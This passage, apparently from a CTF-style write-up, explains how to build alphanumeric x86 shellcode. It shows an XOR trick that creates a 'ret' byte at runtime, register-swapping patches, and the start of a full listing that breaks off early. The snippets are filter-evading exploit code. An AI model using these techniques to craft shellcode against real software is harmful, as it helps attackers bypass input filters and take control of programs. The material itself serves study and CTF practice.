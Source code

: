 In the blog post, this guy replaced `jmp esp` with `push esp; ret`.

Here's another xor trick on it, we try to make a literal `0xc3 (ret)` byte data on the stack.

`0x44 ^ 0x78 ^ 0xff == 0xc3 (ret)`, we make a literal byte data as a placeholder of `0xc3 (ret)`,

try to access that part of memory and xor it with (0x44 ^ 0xff)

Also, the original code doesn't work, we have to patch it because we don't have `dec ecx` this time.


```

 /* set buffer register to ecx */
    push eax
    pop ecx

    push edx
    pop eax
    xor al, 0x44
    push 0x30
    pop ecx
    dec ecx
    dec ecx
    dec ecx
    dec ecx
    dec ecx
    xor [esi+2*ecx+0x30], al

    (push stuffs on the stack)

ret:
    .byte 0x78
```

I used `edx` instead of `ecx`, and added a dummy push/pop pair to adjust the length of the shellcode.

```
    push edx
    pop eax
    xor al, 0x44
    push edx
    push 0x30
    pop edx
    push edx
    pop edx
    xor [esi+edx*2+0x31], al
    pop edx
```

The full listing of my shellcode:

```
       /* alnum.s */
        .intel_syntax noprefix
        .globl _start
_start:
        /* set buffer register to ecx */
        push eax
        pop ecx

prepare_registers:
        push 0x30
        pop eax
        xor al, 0x30
                  /* omit eax, ecx */
        push eax  /* edx = 0 */
```